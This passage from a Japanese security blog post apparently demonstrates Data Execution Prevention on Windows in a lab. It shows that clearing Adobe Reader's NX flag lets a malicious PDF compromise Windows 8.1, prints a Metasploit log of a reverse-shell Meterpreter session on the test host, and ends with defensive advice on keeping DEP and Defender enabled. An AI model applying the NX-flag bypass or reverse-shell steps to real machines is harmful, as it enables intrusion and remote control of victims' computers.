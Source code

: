 NX フラグさえ取ってしまえば、DEP の設定は既定の OptIn のままで DEP は無効になります。

 
この状態で PDF を開くと、最新の Windows 8.1 ですら侵入されます。Windows Defender と DEP 設定は無効にしないようにしましょう。

 
```
msf exploit(handler) > exploit

[*] Started reverse handler on 10.10.10.80:4455 
[*] Starting the payload handler... 
[*] Sending stage (769536 bytes) to 10.10.20.70 
[*] Meterpreter session 3 opened (10.10.10.80:4455 -> 10.10.20.70:49209) at 2014-08-11 13:48:51 -0700

meterpreter > sysinfo 
Computer        : CLIENT 
OS              : Windows 8 (Build 9200). 
Architecture    : x64 (Current Process is WOW64) 
System Language : en_US 
Meterpreter     : x86/win32 
meterpreter > shell 
Process 2072 created. 
Channel 1 created. 
Microsoft Windows [Version 6.3.9600] 
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\administrator.CONTOSO\Desktop>ver 
ver

Microsoft Windows [Version 6.3.9600]

C:\Users\administrator.CONTOSO\Desktop>
```
 
では逆に、XP で AcroRd32.exe に対する DEP を有効にしてみます。上述した wiki によると、DEP は XP SP2 で導入されたようです。

 
Windows XP での DEP 設定画面 (OptOut にすることで AcroRd32.exe が対象になる) <br />
![]({{site.assets_url}}2014-08-12-image22.png)

 
DEP によるクラッシュ <br />
![]({{site.assets_url}}2014-08-12-image21.png)

 
"DEP 無効化" などのキーワードでインターネット検索を行うと、教えて goo や某知恵袋などのサイトがたくさんヒットし、Windows Live Messenger や、某 DVD ソフトなどが DEP によってクラッシュさせられる事例が見受けられます。実際にこれらのソフトの特定のバージョンが、DEP を有効化すると動かなくなるという現象は十分にあり得ることですが、AlwaysOff の設定は極力使うべきではないでしょう。

 
クラッシュしてしまうソフトが DEP で落ちてしまうけれども、OptOut の設定に exe を追加しようとすると 「このプログラムは、データ実行防止 (DEP) を有効にして実行する必要があります。このプログラムでは DEP を無効にすることはできません。」 のダイアログが出て追加できない、という現象には注意が必要な気がします。このダイアログが出るということは、その exe ファイルの NX フラグが有効になっている可能性が高いです。この場合、その製品ベンダーは DEP が有効な状態でアプリケーションが動作可能であることを想定してテストしているはずなので、製品のセキュリティー ホールか、既に攻撃を受けている可能性があるので、ウィルス スキャンや怪しいファイルの削除するなどして対策した方がよさそうです。もし DEP 有効下で動かないのに NX フラグが ON になった exe を出荷しているとすればベンダーが XP でしかテストしてない、とかそういうお粗末な状況が予想されます。
